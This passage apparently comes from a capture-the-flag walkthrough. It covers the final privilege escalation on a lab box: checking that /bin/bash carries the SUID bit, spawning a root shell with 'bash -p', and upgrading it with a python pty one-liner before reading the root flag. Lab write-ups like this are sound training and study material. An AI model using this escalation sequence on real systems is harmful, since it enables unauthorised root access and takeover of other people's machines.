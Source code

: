 ### 🔎 6.3 Confirm Bash is Now SUID
Let's check if the SUID bit was set correctly on /bin/bash:

```bash
ls -l /bin/bash
```

Expected output:
```
-rwsr-sr-x 1 root root 123456 /bin/bash
```
✅ The `s` in the user permissions (rws) confirms that **SUID** is active — meaning Bash will execute with root privileges regardless of the user running it.


### 👑 6.4 Spawn a Root Shell

Now, we can spawn a root shell using the modified Bash:

```bash
/bin/bash -p
```

**Output**
```bash
/bin/bash -p
bash-5.1#
```
Note: The -p flag tells Bash to preserve privileges, preventing it from dropping root privileges.

### 🎯 6.5 Improve the Shell
Although we have root, the terminal might feel unstable (missing features like tab completion).
We can upgrade it to a proper TTY shell:

```bash
python3 -c 'import os;import pty; os.setuid(0); os.setgid(0); pty.spawn("/bin/bash")'
```
**Result in a Bash shell:**

```bash
bash-5.1# python3 -c 'import os;import pty; os.setuid(0); os.setgid(0); pty.spawn("/bin/bash")'
<os.setuid(0); os.setgid(0); pty.spawn("/bin/bash")'
root@Billing:/home/magnus#
```
✅ **Now we have a fully functional root shell!**

---

# 🏆 7. Retrieving the Root Flag

With full root access, we can now easily retrieve the final flag.

List files in /root:
```bash
ls -l /root
```

